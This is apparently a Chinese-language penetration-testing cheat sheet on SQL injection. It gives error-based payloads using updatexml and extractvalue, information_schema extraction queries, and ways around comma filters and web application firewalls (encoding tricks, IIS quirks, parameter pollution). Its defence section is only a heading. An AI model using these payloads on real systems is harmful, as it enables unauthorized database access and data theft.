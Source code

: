 1. 使用sql内置函数或者关键字

> 报错注入 <https://blog.csdn.net/like98k/article/details/79646512>

```
# 常用
extractvalue
updatexml 报错注入
UPDATEXML (XML_document, XPath_string, new_value); 
or updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> select * from  users where id = 1 and updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> version() database() (SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1

floor()
ceil()
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
concat(version(),'|',user());
concat_ws('|',1,2,3)
Char(49)
Hex('a')
Unhex(61)
过滤了逗号
(1)limit处的逗号：
limit 1 offset 0
(2)字符串截取处的逗号
mid处的逗号：
mid(version() from 1 for 1)
```

1. 利用容器特性，比如iis+asp的环境可能会吞掉%(f%rom->from)造成注入，或者iis支持unicode解析，当我们请求的url存在unicode字符串的话iis会自动将其转换，但waf可能不会拦截造成注入
2. 畸形协议/请求。asp/asp.net在解析请求的时候，允许application/x-www-form-urlencoded的数据提交方式;php+apache解析协议除了get/post外随便定义协议也可能过
3. %0a换行
4. 多次URL编码，waf的一根筋过滤

```
unlencode
base64
json
binary
querystring
htmlencode
unicode
php serialize
```

1. http参数污染，`id=1&id=2&id=3` `id=1,2,3`

### 如何进行SQL注入的防御

